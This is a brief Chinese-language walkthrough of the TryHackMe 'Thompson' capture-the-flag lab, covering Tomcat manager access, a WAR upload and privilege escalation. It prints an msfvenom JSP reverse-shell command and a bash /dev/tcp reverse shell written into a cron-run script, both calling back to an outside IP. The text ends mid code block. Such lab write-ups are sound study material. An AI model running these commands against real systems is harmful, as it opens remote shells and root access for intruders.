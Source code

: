 ```yaml
---
{"dg-publish":true,"permalink":"/tryhackme/tryhackme Thompson/"}
---
```



## nmap扫描端口
访问8080端口发现是tomcat 有个登录界面

登录界面点取消键就爆出了账户密码 有点离谱了

有个上传页面 上传一个反弹shell

![image.png](https://s2.loli.net/2025/05/01/5U3YcxeDzRVjMb1.png)

制造反弹shell 用msf连接
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.17.40.203 lport=6666-f war > shell.war
```

![image.png](https://s2.loli.net/2025/05/01/6TZ9pfwiHovnIR3.png)

反弹成功

检查到id.sh可以提权
## 提权
```
cat > id.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/10.17.40.203/8888 0>&1
EOF
# 